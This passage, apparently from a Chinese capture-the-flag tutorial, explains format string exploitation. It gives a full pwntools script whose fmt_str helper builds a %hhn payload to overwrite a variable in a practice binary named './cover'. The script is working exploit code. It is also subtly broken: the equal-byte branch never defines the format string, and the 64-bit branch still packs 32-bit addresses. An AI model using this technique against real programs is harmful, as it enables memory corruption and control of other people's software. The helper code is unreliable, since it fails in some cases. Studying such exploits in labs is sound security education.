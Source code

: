     payload = fmt_str(6,4,0x0804A02C,0x12345678)  
    # 6：字符串参数首个待写地址的偏移 ； 4：32位，4字节机器 ；写入变量的起始地址【低地址】 ；写入变量地址的数据

参数含义：

- offset表示要覆盖的地址最初的偏移
- size表示机器字长
- addr表示将要覆盖的地址。
- target表示我们要覆盖为的目的变量值。


最终修改b变量为0x12345678的脚本如下：

    #!/usr/bin/python
    
    from pwn import *
    def fmt(prev,word,index):
    	if(prev < word):
    		result = word-prev
    		fmtstr = "%" + str(result) + "c"
    	elif(prev == word):
    		result = 0
    	else:
    		result = 256 + word-prev
    		fmtstr = "%" + str(result) + "c"
    	fmtstr += "%" + str(index) + "$hhn"
    	return fmtstr
    
    def fmt_str(offset,size,addr,target):
    	payload = ""
    	for i in range(4):
    		if(size ==4):
    			payload += p32(addr + i)
    		else:
    			payload += p32(addr + i)
    	prev = len(payload)
    	for i in range(4):
    		payload += fmt(prev, (target >> i * 8)&0xff, offset + i)
    		prev = (target >> i * 8)&0xff
    	return payload


​    
    re = process('./cover')
    payload = fmt_str(6,4,0x0804A02C,0x12345678)
    
    print payload
    
    re.sendline(payload)
    print re.recv()
    
    re.interactive()	

